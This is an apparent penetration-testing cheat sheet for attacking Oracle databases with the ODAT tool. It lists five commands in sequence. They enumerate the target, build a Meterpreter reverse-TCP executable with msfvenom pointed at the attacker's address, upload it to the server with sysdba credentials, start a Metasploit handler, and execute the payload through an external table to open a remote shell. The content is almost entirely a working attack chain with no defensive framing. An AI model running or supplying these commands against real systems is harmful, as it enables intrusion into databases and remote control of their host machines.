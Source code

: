 ### Tool: https://github.com/quentinhardy/odat/releases/

### Example usage:

#### 1) ./odat.py all -s IP_ADDRESS

#### 2) msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=OUR_IP LPORT=PORT -f exe > malicious.exe

#### 3) ./odat.py utlfile -s IP_ADDRESS -U USER -P PASSWORD -d SID --sysdba --putFile c:/ malicious.exe malicious.exe

#### 4) use exploit/multi/handler (Metasploit)

#### 5)  ./odat.py externaltable -s IP_ADDRESS -U USER -P PASSWORD -d SID --sysdba --exec c:/malicious.exe
